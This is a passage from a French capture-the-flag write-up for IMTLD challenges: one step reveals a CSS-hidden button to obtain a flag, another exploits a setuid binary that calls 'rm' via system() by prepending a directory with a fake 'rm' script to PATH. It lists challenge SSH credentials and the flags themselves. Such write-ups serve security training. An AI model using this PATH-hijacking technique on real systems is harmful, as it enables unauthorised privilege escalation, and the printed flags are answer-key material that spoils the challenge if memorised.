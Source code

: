 * la première `<div>` suit le curseur
* la seconde n'est pas affiché car `visibility: hidden;` en css.

```css
#formulaire {
  visibility: hidden;
}
```

* désactiver cette regle
* le bouton s'affiche, utiliser les tabulations pour se déplacer et cliquer dessus
* ou supprimer la `<div>` qui suit le curseur et cliquer sur le bouton `I want my flag`

`IMTLD{J4v4scRipT_iS_W0nD3rFuL}` 

---
## 150 On the road again
---

> The flag is... in the flag file :)  
> Host: 51.75.202.113  
> Protocol: SSH  
> Port: 51333  
> Username: challenger1  
> Password: challenger1  

```bash
$ ssh -p 51333 challenger1@51.75.202.113
$ ls -al
-r--r----- 1 admin admin         30 Dec 25 21:10 .flag
-r-sr-x--- 1 admin challenger1 8640 Dec 25 21:10 ch1
-rw-r--r-- 1 root  challenger1  117 Dec 25 21:10 ch1.c
$ cat ch1.c
int main(void) {
    system("rm /home/challenger1/.flag");
    return 0;
}

$ ./ch1
Wow don't delete the flag dude

# changer le comportement de la commande rm par cat
$ mkdir /tmp/apges01
$ cd /tmp/apges01
$ cat << end > rm
> cat /home/challenger1/.flag
> end
$ ls -al
-rw-r--r-- 1 challenger1 challenger1   28 Dec 25 21:12 rm
$ chmod +x ./rm
$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/games
$ export PATH=/tmp/apges01:$PATH
$ /home/challenger1/ch1
```
